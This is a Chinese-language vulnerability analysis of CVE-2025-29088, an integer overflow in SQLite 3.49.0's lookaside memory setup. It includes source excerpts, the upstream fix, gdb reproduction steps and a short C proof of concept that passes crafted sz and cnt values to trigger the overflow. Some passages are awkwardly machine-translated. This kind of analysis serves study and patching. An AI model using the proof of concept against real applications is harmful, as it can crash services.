





# CVE-2025-29088 CWE-190&400 SQLite 整数溢出

## 漏洞背景

- **SQLite：** 一个轻量级的、嵌入式的关系型数据库管理系统，它不需要单独的服务器进程，也不需要复杂的配置。SQLite 直接在文件系统上存储数据，具有零配置、易于使用和适合小型应用的特点。它支持标准的 SQL 语句，提供良好的数据安全性，并且因其轻量级特性被广泛应用于桌面和移动应用开发中。
- **Lookaside Memory Allocation** ：为了优化性能，SQLite 提供了一种的机制：通过 `sqlite3_db_config(db, SQLITE_DBCONFIG_LOOKASIDE, ...)` 接口为某个数据库连接设置一块预先分配的内存，用于高频的小对象分配，减少堆分配的开销。
- **CWE-190（ Integer Overflow or Wraparound）：**整数溢出或截断错误，是软件安全领域中一个常见的编程缺陷。它发生在对整数进行运算时，结果超出了目标数据类型所能表示的范围，导致数据丢失或行为异常。这种错误可能引发缓冲区溢出、内存损坏等安全问题，使攻击者有机会操纵程序执行流程，进而执行任意代码或引发拒绝服务攻击。
- **CWE-400（Uncontrolled Resource Consumption）：**资源管理不当，是一类软件安全漏洞，指程序在管理资源（如内存、文件句柄、网络连接等）时，未对资源分配、使用和释放进行合理控制。这可能导致资源耗尽、系统崩溃或拒绝服务攻击。

## 漏洞原理


处理时 `SQLITE_DBCONFIG_LOOKASIDE` 通过C提供的数值 API  `sqlite3_db_config()`， SQLite  3.49.0 处理乘法操作不当 `sz * cnt` 和 `sz * nBig` 内部职能 `setupLookaside`,缺乏完整的边界检查和强制类型转换。 这导致整数溢出和分配计算无效。

呼叫者必须传出C API 诸如特别选择的参数 `sz` 和非常大， `cnt`。 公共记录确定应用程序崩溃/拒绝服务;它们没有建立远程代码执行。 外部攻击者能否到达缺陷完全取决于嵌入程序暴露对这些C的控制 API 参数。

## 漏洞定位

1. 在 **src\main.c** 文件，第 **935** 行，sqlite3_db_config 函数用于配置 SQLite 数据库连接的特定方面。其参数是可变参数。当 op 为 SQLITE_DBCONFIG_LOOKASIDE 时，第 **952** 行，会依次获取后面的参数并传递给 setupLookaside 函数。

   ```c
   /*
   ** Configuration settings for an individual database connection
   */
   int sqlite3_db_config(sqlite3 *db, int op, ...){
     va_list ap;
     int rc;
   
   #ifdef SQLITE_ENABLE_API_ARMOR
     if( !sqlite3SafetyCheckOk(db) ) return SQLITE_MISUSE_BKPT;
   #endif
     sqlite3_mutex_enter(db->mutex);
     va_start(ap, op);
     switch( op ){
       case SQLITE_DBCONFIG_MAINDBNAME: {
         /* IMP: R-06824-28531 */
         /* IMP: R-36257-52125 */
         db->aDb[0].zDbSName = va_arg(ap,char*);
         rc = SQLITE_OK;
         break;
       }
   // ***** 952 行 ********** 调用 setupLookaside 函数 ***********************************
       case SQLITE_DBCONFIG_LOOKASIDE: {
         void *pBuf = va_arg(ap, void*); /* IMP: R-26835-10964 */
         int sz = va_arg(ap, int);       /* IMP: R-47871-25994 */
         int cnt = va_arg(ap, int);      /* IMP: R-04460-53386 */
         rc = setupLookaside(db, pBuf, sz, cnt);
         break;
       }
   ```

2. 第 **767** 行，`setupLookaside` 函数用于为 SQLite 数据库连接配置备用内存（lookaside memory），这是一种用于小内存分配的优化机制，可以提高内存分配效率，减少内存碎片和分配开销。

   其中从第 **802** 行开始的代码，根据传入的 `sz`（备用内存缓冲区块的大小）的不同，将备用内存划分为大内存块（`nBig`）和小内存块（`nSm`）。

   首先使用 `szAlloc / (3 * LOOKASIDE_SMALL + sz)` 计算大内存块数量 `nBig`，其中 `szAlloc` 是总的分配内存，即 sz * cnt，LOOKASIDE_SMALL 是定义的常量 128，sz 是传入的值。在计算大内存块后，剩余内部分成大小为 LOOKASIDE_SMALL 的小块，通过将总内存（szAlloc）减去已分配的大内存大小（sz * nBig），然后除以 LOOKASIDE_SMALL 来确定要分配的小块数量，即 `(szAlloc - sz * nBig) / LOOKASIDE_SMALL`。

   在第 **804** 和 **807** 行，**在计算 `sz * nBig` 时，结果未被强制转换为 `sqlite3_int64`，导致整数溢出漏洞**，这是**漏洞点**所在。`szAlloc`在函数开头被定义为 64 位， `sz` 和 `cnt`和`nBig` 都是 `int` 类型（32 位有符号），在计算`nSm`时的`sz * nBig` 是用 `int * int` 计算，在某些数值的计算中可能会产生溢出。

   **当`sz = 1200`且`cnt = 2500000`时，这里会发生整数溢出**。首先，计算 `szAlloc` 为`sz * cnt = 1200 * 2500000 = 3000000000`。由于`sz = 1200`仍大于`LOOKASIDE_SMALL * 3`，`nBig` 计算为`3000000000 / (3 * 128 + 1200) = 1893939`。理论上，`nSm` 应该计算为 `(3000000000 - 1200 * 1893939) / 128 = 5681821`，但实际在 gdb 调试中，由于 `1200 * 1893939` 计算时发生出溢，结果显示为 39236253。

   ```c
   static int setupLookaside(sqlite3 *db, void *pBuf, int sz, int cnt){
     void *pStart;
   // ***** 770 行 ********** 定义 szAlloc 类型为 sqlite3_int64 **************************
     sqlite3_int64 szAlloc = sz*(sqlite3_int64)cnt;
     int nBig;   /* Number of full-size slots */
     int nSm;    /* Number smaller LOOKASIDE_SMALL-byte slots */
       // ... ...
   // ***** 802 行 ********** 划分备用内存 ************************************************
       #ifndef SQLITE_OMIT_TWOSIZE_LOOKASIDE
     if( sz>=LOOKASIDE_SMALL*3 ){
       nBig = szAlloc/(3*LOOKASIDE_SMALL+sz);
   // ***** 804 行 ********** 计算 nSm 会发生溢出 ************ 漏洞点 **********************
       nSm = (szAlloc - sz*nBig)/LOOKASIDE_SMALL;
     }else if( sz>=LOOKASIDE_SMALL*2 ){
       nBig = szAlloc/(LOOKASIDE_SMALL+sz);
   // ***** 807 行 ********** 计算 nSm 会发生溢出 ************ 漏洞点 **********************
       nSm = (szAlloc - sz*nBig)/LOOKASIDE_SMALL;
     }else
     // ... ... 
   }
   ```

## 漏洞修复


升级到 SQLite  3.49.1 ,或采用上游登录 `1ec4c308c7`验证 `sz` 和 `cnt` 在嵌入代码中,绝不直接从不信任的输入中获取外观侧面配置。

1。 在 `setupLookaside` 函数,对输入参数适用合理的范围限制。

```c
   SZ range limit: must be a multiple of 8, with a maximum of 65,528
   if( sz>65528 ) sz = 65528;
   sz = ROUNDDOWN8(sz);
   if( sz <= sizeof(LookasideSlot*) ) sz = 0;


CNT limit: cannot be less than 1, and sz*cnt must not exceed 0x7fff0000 (~2GB)
   if( cnt<1 ) cnt = 0;
   if( sz>0 && cnt > (0x7fff0000/sz) ) cnt = 0x7fff0000/sz;


```

2。 在整个计算过程中使用64位操作。

```c
   nSm = (szAlloc - (i64)sz*(i64)nBig) / LOOKASIDE_SMALL;
   ```

## 影响范围


SQLite 3.49.0 受影响；3.49.1 已修复。

## 环境搭建

启动 Docker 环境，其中包含有 SQLite v3.49.0 的源码，以及 PoC 代码 CVE-2025-29088-PoC.c。



## 漏洞复现

1. 进入容器命令行

   ```bash
   docker exec -it sqlite-3.49.0 bash
   ```

2. 将 CVE-2025-29088-PoC. c 代码和 SQLite 源码一起编译成可执行文件 CVE-2025-29088-PoC

   ```bash
   gcc -g -o test CVE-2025-29088-PoC.c ./sqlite-version-3.49.0/sqlite3.c -ldl -lpthread
   ```

   

3. 在`sqlite3_db_config`函数处设置断点。使用`run`命令启动程序执行。程序会运行到断点处暂停，方便进一步调试。可以看到程序停在了SQLite 源码文件中的第182473 行`SQLITE_API`的`sqlite3_db_config`函数处。

   ```bash
   gdb ./CVE-2025-29088-PoC
   break sqlite3_db_config
   run
   ```

   

4. 使用`advance`命令执行程序直到到达指定源代码行：

   - SQLite 源码文件中的 182494 行是在调用`setupLookaside`函数的前一行，之后使用`step`命令到达`setupLookaside`函数处，可以看到成功传参 sz = 1200 和 cnt = 2500000，这两个参数在后续的运算中会导致整数溢出；
   - SQLite 源码文件中的 182340 行是是漏洞代码所在位置，使用`step`命令进入`if`语句，一直回车，直到`nBig`和`nSm`参数计算完。

   ```bash
   advance ./sqlite-version-3.49.0/sqlite3.c:182494
   step
   advance ./sqlite-version-3.49.0/sqlite3.c:182340
   step
   ```

   

5. 使用`print`命令查看`nBig`和`nSm`参数的值，可以看到`nSm` 出现整数溢出，应该计算为 `(3000000000 - 1200 * 1893939) / 128 = 5681821`，但这里在计算`1200 * 1893939` 时发生出溢，最终结果为 39236253。

   ```bash
   print nBig
   print nSm
   ```

   

## PoC分析

```c
#include <stdio.h>
#include <sqlite3.h>

int main() {
    // 创建一个 SQLite 的内存数据库连接（":memory:" 表示不创建磁盘文件）
    sqlite3 *db;
    int rc = sqlite3_open(":memory:", &db);
    if (rc != SQLITE_OK) {
        return 1;
    }

    // 设置 lookaside 内存块的大小 sz = 1200，数量 cnt = 2500000
    int sz = 1200;
    int cnt = 2500000;

    // 调用 sqlite3_db_config() 配置 Lookaside 机制
    sqlite3_db_config(db, SQLITE_DBCONFIG_LOOKASIDE, NULL, sz, cnt);

    return 0;
}
```

PoC 代码通过设置`lookaside`内存块的大小 `sz = 1200`，数量 `cnt = 2500000`。之后传递参数，调用 `sqlite3_db_config`函数，该函数会调用内部的 `setupLookaside`函数。这两个值会导致在 `setupLookaside`函数内部执行 `sz * cnt` = `1200 * 2500000 = 3,000,000,000` 时仍在 `int64` 范围内，但在接下来的 `sz * nBig`（没有类型转换）的地方发生整数溢出。

## 参考链接


gcc -o poc poc.c -I/usr/local/include -L/usr/local/lib -lsqlite3

LD_LIBRARY_PATH=/usr/local/lib ./PoC

[NVD - CVE-2025-29088](https://nvd.nist.gov/vuln/detail/CVE-2025-29088)

[SQLite User Forum: The setupLookaside function contains an integer overflow bug](https://sqlite.org/forum/forumpost/48f365daec)

[SQLite: Check-in [1ec4c308c7\]](https://sqlite.org/src/info/202502171416Z)
